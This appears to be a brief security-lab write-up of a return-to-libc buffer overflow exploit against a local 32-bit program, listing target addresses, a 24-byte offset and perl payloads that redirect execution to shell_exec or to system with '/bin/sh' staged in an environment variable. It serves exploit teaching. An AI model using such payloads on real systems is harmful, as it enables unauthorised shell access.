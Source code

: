 # Return-to-libc Attack

## Logistics

1. address of `shell_exec` is **0x804847d**.

2. `system@plt` is located at **0x8048350**.

3. the distance between **buff** and **RET** is 24 bytes.

## Part 1 - Return to shell_exec

Given the above information, we are able to construct the payload:

```bash
perl -e 'print "A"x24, "\x7d\x84\x4\x8"'
```

## Part 2 - Return to system

### Load "/bin/sh" into environment

Export the "/bin/sh" value with "/" sled. Or, add the following line to `~/.profile`

```bash
MY_SHELL=$(perl -e 'print "/"x60, "/bin/sh"') 
```

Use gdb, approximate its memory address to be **0xbffffefd**.

Now we have:

1. address of `system@plt`.
2. address (with the "/" sled) of "/bin/sh".
3. distance between **buff** and **RET** of `str_copy`.

We can therefore construct our payload to be

```bash
perl -e 'print "A"x24, "\x50\x83\x4\x8", "A"x4, "\xfd\xfe\xff\xbf"'
```